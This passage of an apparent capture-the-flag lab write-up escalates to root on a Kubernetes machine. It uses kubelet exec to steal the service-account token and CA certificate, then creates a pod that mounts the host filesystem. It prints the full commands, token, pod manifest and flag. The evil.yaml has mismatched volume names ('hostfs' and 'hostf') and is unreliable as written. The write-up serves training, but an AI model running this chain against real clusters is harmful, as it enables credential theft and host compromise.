If we go back to the HackTricks website and search for “Kubernetes enumeration,” we obtain the following information:



```bash
$ kubeletctl -s 10.10.11.133 -p nginx -c nginx exec "ls /run/secrets/kubernetes.io/serviceaccount"
```


We can try to extract to our local machine the ca.crt and token
```bash
$  kubeletctl -s 10.10.11.133 -p nginx -c nginx exec "cat /run/secrets/kubernetes.io/serviceaccount/ca.crt" > ca.crt
```


We do the same with the file token
```bash
$ kubeletctl -s 10.10.11.133 -p nginx -c nginx exec "cat /run/secrets/kubernetes.io/serviceaccount/token" > token
```


Now, with these files, we should initially be able to connect to the cluster using the kubectl tool, which we previously tried to use but it required credentials. We will now attempt to provide the obtained files as credentials.
```bash
$  kubectl --server=https://10.10.11.133:8443 --certificate-authority=ca.crt --token 'eyJhbGciOiJSUzI1NiIsImtpZCI6IjVIN0g4S0ZsVEVSVm1FUzNUaW5NT0xGMUpjNDBJVFctUnY3S1lmZHJielkifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiXSwiZXhwIjoxNzk3NDIxMjMxLCJpYXQiOjE3NjU4ODUyMzEsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2Yy5jbHVzdGVyLmxvY2FsIiwia3ViZXJuZXRlcy5pbyI6eyJuYW1lc3BhY2UiOiJkZWZhdWx0IiwicG9kIjp7Im5hbWUiOiJuZ2lueCIsInVpZCI6IjAwOWRjM2UxLTg1NmMtNGY2Ny1iNDJkLTE5NDZhNDg1NzE1YiJ9LCJzZXJ2aWNlYWNjb3VudCI6eyJuYW1lIjoiZGVmYXVsdCIsInVpZCI6IjNlODQ0YzBiLTFkOWQtNGU4Yi04NjNiLTBhODczMjNjYjI3YiJ9LCJ3YXJuYWZ0ZXIiOjE3NjU4ODg4Mzh9LCJuYmYiOjE3NjU4ODUyMzEsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0OmRlZmF1bHQifQ.UC4Uma2hLauGZUG8IvFjM7zYo2NKyG6dcuiuPw_E8ocVU_VZ6RHPhLj2Ed6i-2bZ_PHG4UIoLRBcH7jRxfunNG59kMIf-Tyu-YN84Aoly0T9k2wAwF-SgFu13FASQYWeRytBM504IdAKBnSD-4aoHKIjHXhEw9rrCmcSb7UkGKH_dtIou3pEe-unGhOfCD5Pq-gRAmh9zBUPcFBctnxVrbUj_p5O3ZQNbi14Tui1m-OQlXVeUOy0JOAI82U8L4uo6RT8uHts-UC3dTJMjNJem-VhtWLHbphrtMOX-NYuMqvl0p727_MctjO2rhz-XxBpHxxGpV9U1-3ZfyuQAg-5rA' get pods
```


We will know what can i do with this credentials. To make this we haver an option in the kubectl tool
```bash
$ kubectl --server=https://10.10.11.133:8443 --certificate-authority=ca.crt --token 'eyJhbGciOiJSUzI1NiIsImtpZCI6IjVIN0g4S0ZsVEVSVm1FUzNUaW5NT0xGMUpjNDBJVFctUnY3S1lmZHJielkifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiXSwiZXhwIjoxNzk3NDIxMjMxLCJpYXQiOjE3NjU4ODUyMzEsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2Yy5jbHVzdGVyLmxvY2FsIiwia3ViZXJuZXRlcy5pbyI6eyJuYW1lc3BhY2UiOiJkZWZhdWx0IiwicG9kIjp7Im5hbWUiOiJuZ2lueCIsInVpZCI6IjAwOWRjM2UxLTg1NmMtNGY2Ny1iNDJkLTE5NDZhNDg1NzE1YiJ9LCJzZXJ2aWNlYWNjb3VudCI6eyJuYW1lIjoiZGVmYXVsdCIsInVpZCI6IjNlODQ0YzBiLTFkOWQtNGU4Yi04NjNiLTBhODczMjNjYjI3YiJ9LCJ3YXJuYWZ0ZXIiOjE3NjU4ODg4Mzh9LCJuYmYiOjE3NjU4ODUyMzEsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0OmRlZmF1bHQifQ.UC4Uma2hLauGZUG8IvFjM7zYo2NKyG6dcuiuPw_E8ocVU_VZ6RHPhLj2Ed6i-2bZ_PHG4UIoLRBcH7jRxfunNG59kMIf-Tyu-YN84Aoly0T9k2wAwF-SgFu13FASQYWeRytBM504IdAKBnSD-4aoHKIjHXhEw9rrCmcSb7UkGKH_dtIou3pEe-unGhOfCD5Pq-gRAmh9zBUPcFBctnxVrbUj_p5O3ZQNbi14Tui1m-OQlXVeUOy0JOAI82U8L4uo6RT8uHts-UC3dTJMjNJem-VhtWLHbphrtMOX-NYuMqvl0p727_MctjO2rhz-XxBpHxxGpV9U1-3ZfyuQAg-5rA' auth can-i --list
```


As you can see, we can create a pod. We are going to try to create a pod, so first we will check the format of the Nginx pod. We can do this by asking it to display the pod in YAML format. o create our YAML file and launch our pod, a new pod.
```bash
$ kubectl --server=https://10.10.11.133:8443 --certificate-authority=ca.crt --token 'eyJhbGciOiJSUzI1NiIsImtpZCI6IjVIN0g4S0ZsVEVSVm1FUzNUaW5NT0xGMUpjNDBJVFctUnY3S1lmZHJielkifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiXSwiZXhwIjoxNzk3NDIxMjMxLCJpYXQiOjE3NjU4ODUyMzEsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2Yy5jbHVzdGVyLmxvY2FsIiwia3ViZXJuZXRlcy5pbyI6eyJuYW1lc3BhY2UiOiJkZWZhdWx0IiwicG9kIjp7Im5hbWUiOiJuZ2lueCIsInVpZCI6IjAwOWRjM2UxLTg1NmMtNGY2Ny1iNDJkLTE5NDZhNDg1NzE1YiJ9LCJzZXJ2aWNlYWNjb3VudCI6eyJuYW1lIjoiZGVmYXVsdCIsInVpZCI6IjNlODQ0YzBiLTFkOWQtNGU4Yi04NjNiLTBhODczMjNjYjI3YiJ9LCJ3YXJuYWZ0ZXIiOjE3NjU4ODg4Mzh9LCJuYmYiOjE3NjU4ODUyMzEsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0OmRlZmF1bHQifQ.UC4Uma2hLauGZUG8IvFjM7zYo2NKyG6dcuiuPw_E8ocVU_VZ6RHPhLj2Ed6i-2bZ_PHG4UIoLRBcH7jRxfunNG59kMIf-Tyu-YN84Aoly0T9k2wAwF-SgFu13FASQYWeRytBM504IdAKBnSD-4aoHKIjHXhEw9rrCmcSb7UkGKH_dtIou3pEe-unGhOfCD5Pq-gRAmh9zBUPcFBctnxVrbUj_p5O3ZQNbi14Tui1m-OQlXVeUOy0JOAI82U8L4uo6RT8uHts-UC3dTJMjNJem-VhtWLHbphrtMOX-NYuMqvl0p727_MctjO2rhz-XxBpHxxGpV9U1-3ZfyuQAg-5rA' get pods -o yaml
```
```bash
Result:

apiVersion: v1
items:
- apiVersion: v1
  kind: Pod
  metadata:
    annotations:
      kubectl.kubernetes.io/last-applied-configuration: |
        {"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{},"name":"nginx","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","imagePullPolicy":"Never","name":"nginx","volumeMounts":[{"mountPath":"/root","name":"flag"}]}],"volumes":[{"hostPath":{"path":"/opt/flag"},"name":"flag"}]}}
    creationTimestamp: "2025-12-16T10:04:02Z"
    name: nginx
    namespace: default
    resourceVersion: "490"
    uid: 009dc3e1-856c-4f67-b42d-1946a485715b
  spec:
    containers:
    - image: nginx:1.14.2
      imagePullPolicy: Never
      name: nginx
      resources: {}
      terminationMessagePath: /dev/termination-log
      terminationMessagePolicy: File
      volumeMounts:
      - mountPath: /root
        name: flag
      - mountPath: /var/run/secrets/kubernetes.io/serviceaccount
        name: kube-api-access-h6twc
        readOnly: true
    dnsPolicy: ClusterFirst
    enableServiceLinks: true
    nodeName: steamcloud
    preemptionPolicy: PreemptLowerPriority
    priority: 0
    restartPolicy: Always
    schedulerName: default-scheduler
    securityContext: {}
    serviceAccount: default
    serviceAccountName: default
    terminationGracePeriodSeconds: 30
    tolerations:
    - effect: NoExecute
      key: node.kubernetes.io/not-ready
      operator: Exists
      tolerationSeconds: 300
    - effect: NoExecute
      key: node.kubernetes.io/unreachable
      operator: Exists
      tolerationSeconds: 300
    volumes:
    - hostPath:
        path: /opt/flag
        type: ""
      name: flag
    - name: kube-api-access-h6twc
      projected:
        defaultMode: 420
        sources:
        - serviceAccountToken:
            expirationSeconds: 3607
            path: token
        - configMap:
            items:
            - key: ca.crt
              path: ca.crt
            name: kube-root-ca.crt
        - downwardAPI:
            items:
            - fieldRef:
                apiVersion: v1
                fieldPath: metadata.namespace
              path: namespace
  status:
    conditions:
    - lastProbeTime: null
      lastTransitionTime: "2025-12-16T10:04:02Z"
      status: "True"
      type: Initialized
    - lastProbeTime: null
      lastTransitionTime: "2025-12-16T10:04:03Z"
      status: "True"
      type: Ready
    - lastProbeTime: null
      lastTransitionTime: "2025-12-16T10:04:03Z"
      status: "True"
      type: ContainersReady
    - lastProbeTime: null
      lastTransitionTime: "2025-12-16T10:04:02Z"
      status: "True"
      type: PodScheduled
    containerStatuses:
    - containerID: docker://4c909ba07dc810d116522573ec5d248a8323b4c2db1daca92880b8e9df2df8ed
      image: nginx:1.14.2
      imageID: docker-pullable://nginx@sha256:f7988fb6c02e0ce69257d9bd9cf37ae20a60f1df7563c3a2a6abe24160306b8d
      lastState: {}
      name: nginx
      ready: true
      restartCount: 0
      started: true
      state:
        running:
          startedAt: "2025-12-16T10:04:03Z"
    hostIP: 10.10.11.133
    phase: Running
    podIP: 172.17.0.3
    podIPs:
    - ip: 172.17.0.3
    qosClass: BestEffort
    startTime: "2025-12-16T10:04:02Z"
kind: List
metadata:
  resourceVersion: ""

```
So we save the yaml file in our local machine to create the new one.
```bash
$ kubectl --server=https://10.10.11.133:8443 --certificate-authority=ca.crt --token 'eyJhbGciOiJSUzI1NiIsImtpZCI6IjVIN0g4S0ZsVEVSVm1FUzNUaW5NT0xGMUpjNDBJVFctUnY3S1lmZHJielkifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiXSwiZXhwIjoxNzk3NDIxMjMxLCJpYXQiOjE3NjU4ODUyMzEsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2Yy5jbHVzdGVyLmxvY2FsIiwia3ViZXJuZXRlcy5pbyI6eyJuYW1lc3BhY2UiOiJkZWZhdWx0IiwicG9kIjp7Im5hbWUiOiJuZ2lueCIsInVpZCI6IjAwOWRjM2UxLTg1NmMtNGY2Ny1iNDJkLTE5NDZhNDg1NzE1YiJ9LCJzZXJ2aWNlYWNjb3VudCI6eyJuYW1lIjoiZGVmYXVsdCIsInVpZCI6IjNlODQ0YzBiLTFkOWQtNGU4Yi04NjNiLTBhODczMjNjYjI3YiJ9LCJ3YXJuYWZ0ZXIiOjE3NjU4ODg4Mzh9LCJuYmYiOjE3NjU4ODUyMzEsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0OmRlZmF1bHQifQ.UC4Uma2hLauGZUG8IvFjM7zYo2NKyG6dcuiuPw_E8ocVU_VZ6RHPhLj2Ed6i-2bZ_PHG4UIoLRBcH7jRxfunNG59kMIf-Tyu-YN84Aoly0T9k2wAwF-SgFu13FASQYWeRytBM504IdAKBnSD-4aoHKIjHXhEw9rrCmcSb7UkGKH_dtIou3pEe-unGhOfCD5Pq-gRAmh9zBUPcFBctnxVrbUj_p5O3ZQNbi14Tui1m-OQlXVeUOy0JOAI82U8L4uo6RT8uHts-UC3dTJMjNJem-VhtWLHbphrtMOX-NYuMqvl0p727_MctjO2rhz-XxBpHxxGpV9U1-3ZfyuQAg-5rA' get pods -o yaml > evil.yaml
```

We modificate our evil.yaml like this:
```bash
apiVersion: v1
kind: Pod
metadata:
  name: chus-pod
  namespace: default
spec:
  containers:
   - name: chus-pod
     image: nginx:1.14.2
     volumeMounts:
     - mountPath: /mnt
       name: hostfs
  volumes:
   - name: hostf
     hostPath:
       path: /
```
And now we execute our pod
```bash
$ kubectl --server=https://10.10.11.133:8443 --certificate-authority=ca.crt --token 'eyJhbGciOiJSUzI1NiIsImtpZCI6IjVIN0g4S0ZsVEVSVm1FUzNUaW5NT0xGMUpjNDBJVFctUnY3S1lmZHJielkifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiXSwiZXhwIjoxNzk3NDIxMjMxLCJpYXQiOjE3NjU4ODUyMzEsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2Yy5jbHVzdGVyLmxvY2FsIiwia3ViZXJuZXRlcy5pbyI6eyJuYW1lc3BhY2UiOiJkZWZhdWx0IiwicG9kIjp7Im5hbWUiOiJuZ2lueCIsInVpZCI6IjAwOWRjM2UxLTg1NmMtNGY2Ny1iNDJkLTE5NDZhNDg1NzE1YiJ9LCJzZXJ2aWNlYWNjb3VudCI6eyJuYW1lIjoiZGVmYXVsdCIsInVpZCI6IjNlODQ0YzBiLTFkOWQtNGU4Yi04NjNiLTBhODczMjNjYjI3YiJ9LCJ3YXJuYWZ0ZXIiOjE3NjU4ODg4Mzh9LCJuYmYiOjE3NjU4ODUyMzEsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0OmRlZmF1bHQifQ.UC4Uma2hLauGZUG8IvFjM7zYo2NKyG6dcuiuPw_E8ocVU_VZ6RHPhLj2Ed6i-2bZ_PHG4UIoLRBcH7jRxfunNG59kMIf-Tyu-YN84Aoly0T9k2wAwF-SgFu13FASQYWeRytBM504IdAKBnSD-4aoHKIjHXhEw9rrCmcSb7UkGKH_dtIou3pEe-unGhOfCD5Pq-gRAmh9zBUPcFBctnxVrbUj_p5O3ZQNbi14Tui1m-OQlXVeUOy0JOAI82U8L4uo6RT8uHts-UC3dTJMjNJem-VhtWLHbphrtMOX-NYuMqvl0p727_MctjO2rhz-XxBpHxxGpV9U1-3ZfyuQAg-5rA' apply -f evil.yaml
```


Now we list the pods again to see if ours is present.
```bash
$ kubeletctl -s 10.10.11.133 pods
```


So we can try to get a shell like before but this shell is from our pod
```bash
$ kubeletctl -s 10.10.11.133 -p chus-pod -c chus-pod exec "bash"
```


Now we can list the resources in mnt directory . As we can see, we now have another root, and this is because when configuring our pod, we told it to mount the entire root of the main SteamCloud machine at /mnt.



So we can acces to the real directory root and obtain de root flag.


```bash
Root Flag → c583774e63734f0833530bdae569853c
```


[Back](README.md)